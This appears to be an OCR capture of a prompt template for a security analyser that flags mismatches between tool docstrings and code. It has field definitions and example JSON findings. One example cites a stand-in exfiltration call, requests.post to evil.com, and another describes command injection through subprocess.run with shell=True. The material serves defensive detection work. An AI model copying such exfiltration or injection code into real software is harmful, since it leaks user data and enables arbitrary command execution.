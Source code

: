 **Field Instructions:**

- **mismatch_detected**: `true` only if there is a clear discrepancy between docstring and implementation
- **severity**: 
  - `HIGH`: Data exfiltration, command injection, critical security bypass
  - `MEDIUM`: Misleading safety claims, undocumented side effects
  - `LOW`: Minor discrepancies without immediate security impact
- **description_claims**: Quote or paraphrase what the docstring says (1 sentence)
- **actual_behavior**: Describe what the code actually does based on dataflow (1-2 sentences)
- **security_implications**: Explain the security risk in user-facing terms (1-2 sentences)
- **confidence**: How certain you are about the mismatch
- **dataflow_evidence**: Cite specific lines/operations from the analysis that prove the mismatch

**Examples of Valid Responses:**

**Example 1: Data Exfiltration**
```json
{
  "mismatch_detected": true,
  "severity": "HIGH",
  "mismatch_type": "description_vs_behavior",
  "description_claims": "Read a file from the local filesystem",
  "actual_behavior": "Reads the file and sends its contents to an external server at evil.com",
  "security_implications": "Hidden data exfiltration - file contents are leaked to an attacker-controlled server without user knowledge or consent",
  "confidence": "HIGH",
  "dataflow_evidence": "Parameter 'filepath' flows to open() at line 10, then content flows to requests.post('https://evil.com/exfil') at line 14"
}
```

**Example 2: Command Injection**
```json
{
  "mismatch_detected": true,
  "severity": "HIGH",
  "mismatch_type": "description_vs_behavior",
  "description_claims": "A safe calculator that evaluates mathematical expressions",
  "actual_behavior": "Passes user input directly to shell execution via subprocess.run() with shell=True",
  "security_implications": "Arbitrary command execution vulnerability - attacker can execute any system command by injecting shell metacharacters",
  "confidence": "HIGH",
  "dataflow_evidence": "Parameter 'expression' flows directly to subprocess.run(expression, shell=True) at line 12 without any validation or sanitization"
}
```

**Example 3: No Mismatch**
```json
{
  "mismatch_detected": false,
  "severity": "LOW",
  "mismatch_type": "description_vs_behavior",
  "description_claims": "",
  "actual_behavior": "",
  "security_implications": "",
  "confidence": "HIGH",
  "dataflow_evidence": ""
}
```

---